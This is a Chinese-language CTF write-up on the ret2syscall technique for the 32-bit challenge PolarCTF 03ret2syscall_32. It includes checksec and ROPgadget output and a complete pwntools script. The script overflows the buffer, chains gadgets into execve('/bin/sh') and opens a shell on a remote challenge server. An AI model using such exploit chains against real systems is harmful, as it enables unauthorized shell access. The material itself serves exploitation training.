


# {{$frontmatter.title}}
[[toc]]

## 系统调用

### write
```asm
    mov eax, 0x4
    mov ebx, 1
    mov ecx, [ "Hello, World!\n" ]
    mov edx, 13
    int 0x80
    => write(1, "Hello, World!\n", 13)
```
### execve
```asm
    mov eax, 0xb
    mov ebx, [ "/bin/sh" ]
    mov ecx, 0
    mov edx, 0
    int 0x80
    => execve("/bin/sh", 0, 0)
```
## 原理图 
> 很重要



## 例题
> PolarCTFD&N 03ret2syscall_32

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file 03ret2syscall_32
03ret2syscall_32: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=7aa0a75d7429c4ba7ba95be1bcae6dd669105fad, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=03ret2syscall_32
[*] '/home/kali/win/Downloads/03ret2syscall_32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

开了部分随机化，堆栈可执行

### ida



没有system 但存在 /bin/sh

可以使用 
- ret2shellcode
- ret2libc
- ret2syscall

为达学习目的，本次例题将全部展示

### ret2syscall

通过构造execve的ROP链，实现攻击

ROPgadget
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary 03ret2syscall_32 --only "pop|ret|int"
0x0806cea3 : int 0x80
0x080b8576 : pop eax ; ret
0x0806f250 : pop edx ; pop ecx ; pop ebx ; ret
# 虽然存在很多短小的 pop x; ret
# 但我们选择连续pop的 更加简洁

┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary 03ret2syscall_32 --string "/bin/sh"
Strings information
============================================================
0x080ea068 : /bin/sh

```
**一定要注意 是 32 还是 64 位**
exp.py
```py
from pwn import *
context(arch="i386", os="linux")
# io = process("./03ret2syscall_32")
io = remote("120.46.59.242", 2127)
padding = 0x208 + 4

print(io.recvline())
print(io.recvline())

sh_addr = 0x080ea068
int_addr = 0x0806cea3
pop_eax_ret = 0x080b8576
pop_edx_ecx_ebx_ret = 0x0806f250

# 很漂亮的传参 ROP链 使用flat函数就不用担心位数了
payload = b'a'*padding + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(sh_addr) + p32(int_addr)
# payload = flat(['a'*padding,pop_eax_ret , 0xb , pop_edx_ecx_ebx_ret, 0 , 0 , sh_addr , int_addr])

io.sendline(payload)
io.interactive()
```
### ret2shellcode （当堆栈可执行，或者BSS段可写）
**需要能拿到缓冲区的地址**
现在我的技术，拿不到，行不通，有想法的联系我
观察到gets里有参数，试试不覆盖参数，只覆盖地址？
```py

```
### ret2libc
这是静态链接库，无法连接到libc只能 ret2syscall了
